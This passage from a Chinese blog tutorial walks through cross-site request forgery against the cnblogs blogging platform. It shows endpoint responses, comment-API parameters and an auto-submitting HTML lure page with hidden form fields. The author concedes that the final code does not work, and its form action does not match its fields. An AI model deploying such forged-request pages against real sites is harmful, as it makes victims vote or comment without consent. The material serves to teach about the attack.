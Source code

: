 因为不能推荐自己，我把 `blogApp` 和 `postId` 改成其他人的文章来测试。然后登录博客园，在服务器环境下打开页面，显示：

```
{"Id":0,"IsSuccess":true,"Message":"推荐成功","Data":null}
```

如果未登录，则会提示：

```
{
  "Id": 0,
  "IsSuccess": false,
  "Message": "请先<a href='javascript:void(0);' onclick='login()'>登录</a>",
  "Data": null
}
```

刷新文章页面，嗯~，确实推荐成功了！

![](img/csrf-0.png)

如果你不需要赞，想要好评，也是可以滴。你可以在这篇文章下面写个好评，看看开发者工具的调试信息。

可以看出接口是：

```
POST http://www.cnblogs.com/mvc/PostComment/Add.aspx
```

参数 | 说明
--- | ---
blogApp | 用户名
postId | 文章 ID
parentCommentId | 0
body | 评论内容

相关代码：（注：完成这篇文章后发现这段代码不起作用，因为表单提交的方式不同，好像涉及到 request payload 相关的知识，我也不懂。这段代码就不删了。）

```
<html>
<head>
    <meta charset="utf-8">
    <title>深夜福利，有图有真相</title>
</head>
<body>
<form id="form" method="POST" action="http://www.cnblogs.com/mvc/vote/VoteBlogPost.aspx">
    <input type="hidden" name="blogApp" value="smallchen">
    <input type="hidden" name="postId" value="7424994">
    <input type="hidden" name="parentCommentId" value="0">
    <input type="hidden" name="body" value="卧槽，我中招了！">
</form>
<script>
    var form = document.getElementById('form')
    form.submit()
</script>
</body>
</html>
```
